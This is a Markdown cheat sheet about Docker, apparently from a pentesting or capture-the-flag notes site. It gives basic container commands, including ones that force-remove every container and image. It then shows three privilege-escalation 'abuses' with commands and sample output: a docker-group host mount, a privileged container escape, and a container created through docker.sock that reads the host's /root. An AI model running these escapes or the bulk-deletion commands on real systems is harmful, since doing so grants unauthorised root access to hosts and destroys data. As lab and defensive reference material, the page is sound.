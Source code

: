 ```yaml
---
title: "Docker"
date: 2024-7-3
tags: ["Forensic", "Docker", "Container", "Dive"]
---
```


### Basic Commands

```console
# Show All Running Docker Processes
sudo docker ps -a
```

```console
# Show All Docker Images
sudo docker images -a
```

```console
# Stop All Docker Processes
sudo docker stop $(sudo docker ps -a -q)
```

```console
# Remove All Docker Processes
sudo docker rm -vf $(sudo docker ps -a -q)
```

```console
# Remove All Docker Images
sudo docker rmi -f $(sudo docker images -aq)
```

```console
# Shell in Container
sudo docker exec -it <CONTAINER_ID> bash
```

```console
# Privileged Shell in Container
sudo docker exec -it --privileged --user root <CONTAINER_ID> bash
```

```console
# Copy File from Host to Container
sudo docker cp <HOST_FILE_PATH> <CONTAINER_ID>:<CONTAINER_FILE_PATH>
```

```console
# Copy File from Container to Host
sudo docker cp <CONTAINER_ID>:<CONTAINER_FILE_PATH> <HOST_FILE_PATH>
```

```console
# Copy Folder from Host to Container
sudo docker cp <HOST_FOLDER_PATH>/. <CONTAINER_ID>:<CONTAINER_TARGET_PATH>
```

```console
# Copy Folder from Container to Host
sudo docker cp <CONTAINER_ID>:<CONTAINER_FOLDER_PATH>/. <HOST_TARGET_PATH>
```

---

### Explore Docker image

{{< tab set1 tab1 >}}dive{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
dive docker-archive://image.tar
```

<small>*Ref: [dive](https://github.com/wagoodman/dive)*</small>

{{< /tabcontent >}}

---

### Abuse #1: Docker group

```console
# List Docker Images
docker images
```

```console {class="sample-code"}
$ docker images
REPOSITORY   TAG       IMAGE ID       CREATED       SIZE
alpine       latest    d7d3d98c851f   2 years ago   5.53MB
```

```console
# Mount Host root Filesystem
docker run -v /:/mnt -it <IMAGE_ID> sh
```

```console {class="sample-code"}
$ docker run -v /:/mnt -it d7d3d98c851f sh  
/ # 
```

```console
# Check
ls /mnt/root
```

```console {class="sample-code"}
/ # ls /mnt/root
root.txt
```

---

### Abuse #2: Docker Escape (With Root)

```console
# Take Note of the Host Mount
mount
```

```console
sudo docker exec -it --privileged --user root <CONTAINER_ID> bash
```

```console
# Mount Host root Filesystem
mount /dev/sda1 /mnt
```

```console
# Check
ls /mnt/root
```

---

### Abuse #3: Docker API

```console
# Show Running Containers
curl -s --unix-socket /var/run/docker.sock http://localhost/images/json
```

```console {class="sample-code"}
root@2d24bf61767c:/root# curl -s --unix-socket /var/run/docker.sock http://localhost/images/json
[{"Containers":-1,"Created":1590787186,"Id":"sha256:a24bb4013296f61e89ba57005a7b3e52274d8edd3ae2077d04395f806b63d83e","Labels":null,"ParentId":"","RepoDigests":null,"RepoTags":["sandbox:latest"],"SharedSize":-1,"Size":5574537,"VirtualSize":5574537},{"Containers":-1,"Created":1588544489,"Id":"sha256:188a2704d8b01d4591334d8b5ed86892f56bfe1c68bee828edc2998fb015b9e9","Labels":null,"ParentId":"","RepoDigests":["<none>@<none>"],"RepoTags":["<none>:<none>"],"SharedSize":-1,"Size":1056679100,"VirtualSize":1056679100}]
```

```console
# Create Container
curl -s -X POST -H 'Content-Type: application/json' --data-binary '{"Image": "<IMAGE_NAME>:latest","HostConfig": {"Binds": ["/:/r"]}, "Cmd": ["/bin/sh", "-c", "ls -la /r/root/"], "Tty": true}' --unix-socket /var/run/docker.sock http://localhost/containers/create
```

```console {class="sample-code"}
(remote) root@2d24bf61767c:/root# curl -s -X POST -H 'Content-Type: application/json' --data-binary '{"Image": "sandbox:latest","HostConfig": {"Binds": ["/:/r"]}, "Cmd": ["/bin/sh", "-c", "ls -la /r/root/"], "Tty": true}' --unix-socket /var/run/docker.sock http://localhost/containers/create
{"Id":"ec28a9d1ae931fb81ac1c2640d1aac24bf1e7172bd6c42f02400659c299157cd","Warnings":[]}
```

```console
# Start Container
curl -i -X POST -H 'Content-Type: application/json' --unix-socket /var/run/docker.sock http://localhost/containers/<CONTAINER_ID>/start
```

```console {class="sample-code"}
(remote) root@2d24bf61767c:/root# curl -i -X POST -H 'Content-Type: application/json' --unix-socket /var/run/docker.sock http://localhost/containers/9115/start
HTTP/1.1 204 No Content
Api-Version: 1.40
Docker-Experimental: false
Ostype: linux
Server: Docker/19.03.8 (linux)
Date: Mon, 23 Sep 2024 04:29:11 GMT
```

```console
# Show Results
curl -s --unix-socket /var/run/docker.sock "http://localhost/containers/<CONTAINER_ID>/logs?stderr=1&stdout=1"
```

```console {class="sample-code"}
(remote) root@2d24bf61767c:/root# curl -s --unix-socket /var/run/docker.sock "http://localhost/containers/9115/logs?stderr=1&stdout=1"
total 56
drwx------    6 root     root          4096 Sep 23 04:06 .
drwxr-xr-x   20 root     root          4096 Feb  9  2021 ..
lrwxrwxrwx    1 root     root             9 Jun 17  2020 .bash_history -> /dev/null
-rw-r--r--    1 root     root          3106 Dec  5  2019 .bashrc
drwx------    2 root     root          4096 Jun 30  2020 .cache
drwxr-xr-x    3 root     root          4096 Jun 30  2020 .local
-rw-r--r--    1 root     root           161 Dec  5  2019 .profile
-rw-r--r--    1 root     root            75 Jun 30  2020 .selected_editor
drwx------    2 root     root          4096 Jun 30  2020 .ssh
-rw-------    1 root     root         12235 Aug 26  2020 .viminfo
-rw-r--r--    1 root     root           165 Jun 30  2020 .wget-hsts
-rw-------    1 root     root            33 Sep 23 04:06 root.txt
drwxr-xr-x    3 root     root          4096 May 18  2020 snap
```
